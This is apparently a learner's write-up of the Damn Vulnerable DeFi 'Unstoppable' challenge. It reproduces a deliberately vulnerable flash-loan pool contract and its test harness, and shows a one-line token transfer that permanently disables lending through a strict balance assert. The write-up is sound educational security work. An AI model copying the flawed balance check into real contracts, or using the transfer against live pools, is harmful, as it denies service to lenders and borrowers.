 # Damn Vulnerable Defi: Unstoppable

Intro to the project and understanding smart contracts, with the goal to make it stop working

## The Task Intro

There's a lending pool with a million DVT tokens in balance, offering flash loans for free. If only there was a way to attack and stop the pool from offering flash loans ...

You start with 100 DVT tokens in balance.

## The Task Code

UnstoppableLender.sol

```apache
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface IReceiver {
    function receiveTokens(address tokenAddress, uint256 amount) external;
}

/**
 * @title UnstoppableLender
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract UnstoppableLender is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    uint256 public poolBalance;

    constructor(address tokenAddress) {
        require(tokenAddress != address(0), "Token address cannot be zero");
        damnValuableToken = IERC20(tokenAddress);
    }

    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```

ReceiverUnstoppable.sol

```apache
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../unstoppable/UnstoppableLender.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

/**
 * @title ReceiverUnstoppable
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverUnstoppable {

    UnstoppableLender private immutable pool;
    address private immutable owner;

    constructor(address poolAddress) {
        pool = UnstoppableLender(poolAddress);
        owner = msg.sender;
    }

    // Pool will call this function during the flash loan
    function receiveTokens(address tokenAddress, uint256 amount) external {
        require(msg.sender == address(pool), "Sender must be pool");
        // Return all tokens to the pool
        require(IERC20(tokenAddress).transfer(msg.sender, amount), "Transfer of tokens failed");
    }

    function executeFlashLoan(uint256 amount) external {
        require(msg.sender == owner, "Only owner can execute flash loan");
        pool.flashLoan(amount);
    }
}
```

The unstoppable.challenge.js

```apache
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("[Challenge] Unstoppable", function () {
  let deployer, attacker, someUser;

  // Pool has 1M * 10**18 tokens
  const TOKENS_IN_POOL = ethers.utils.parseEther("1000000");
  const INITIAL_ATTACKER_TOKEN_BALANCE = ethers.utils.parseEther("100");

  before(async function () {
    /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

    [deployer, attacker, someUser] = await ethers.getSigners();

    const DamnValuableTokenFactory = await ethers.getContractFactory("DamnValuableToken", deployer);
    const UnstoppableLenderFactory = await ethers.getContractFactory("UnstoppableLender", deployer);

    this.token = await DamnValuableTokenFactory.deploy();
    this.pool = await UnstoppableLenderFactory.deploy(this.token.address);

    await this.token.approve(this.pool.address, TOKENS_IN_POOL);
    await this.pool.depositTokens(TOKENS_IN_POOL); // transfers token to smart contract

    const poolBal = await this.token.balanceOf(this.pool.address);
    expect(poolBal).to.equal(TOKENS_IN_POOL);
    console.log(ethers.utils.formatEther(poolBal));

    await this.token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE); //transfers token from the deployer to the attacker

    const attackerBal = await this.token.balanceOf(attacker.address);
    expect(attackerBal).to.equal(INITIAL_ATTACKER_TOKEN_BALANCE);
    console.log(ethers.utils.formatEther(attackerBal));

    // Show it's possible for someUser to take out a flash loan
    const ReceiverContractFactory = await ethers.getContractFactory("ReceiverUnstoppable", someUser);
    this.receiverContract = await ReceiverContractFactory.deploy(this.pool.address);
    await this.receiverContract.executeFlashLoan(10);
  });

  it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    await this.token.connect(attacker).transfer(this.pool.address, 50);
  });

  after(async function () {
    /** SUCCESS CONDITIONS */

    // It is no longer possible to execute flash loans
    await expect(this.receiverContract.executeFlashLoan(10)).to.be.reverted;
  });
});
```

## The Solution

Thats a lot of code and new concepts to digest. But we are in Rareskills :-), so we can show what we can. Defi is a very fascinating aspect of the blockchain, flashloans or flashmints concepts I never heard of.

But hey, its about getting a loan for a commission without a collateral. This is possible because all is handled in a transaction - if the borrower cannot pay back, the full transaction fails; only gas fees need to be payed. If a transaction succeeds, it is a laverage at marginal cost for the borrower. The lenders get an interesting interest earning potential.

The implementation is more difficult as I guess I will learn throght the damn vulnerable defi exercises.

So I studied the three files above watched quite some Youtube videos and studied the EIP 3156 Flash Loan standard. The flow is as this:

1. A flash loan receiver contract calls a lender contract
2. the lender contract calls the receiver contract back, after assigning the loan in tokens
3. the borrower does his logic of arbitrage, liquidation, etc.
4. After the logic happend, the borrower needs to approve the lender to get the token back
5. the lender tries to get the token plus a fee back.
6. If one point fails, the transaction fails, if all points succeed, the transaction is through

What a fascinating concept!

Now with this concrete Unstoppable problem, the exploit is easy. the lender has one line of code that checks the amount of tokens trackt in the lending contract is the same as as the tracking on the token.

```apache
// Ensured by the protocol via the `depositTokens` function
assert(poolBalance == balanceBefore);
```

What is probably meant as a good idea, never leve the token balance of the contract out of sync with the loan contract, fails dramatically with one line:

```apache
await this.token.connect(attacker).transfer(this.pool.address, 50);
```

Sending a few tokens to the lender smart contract breaks the contract and no more lending/borrowing is possible!
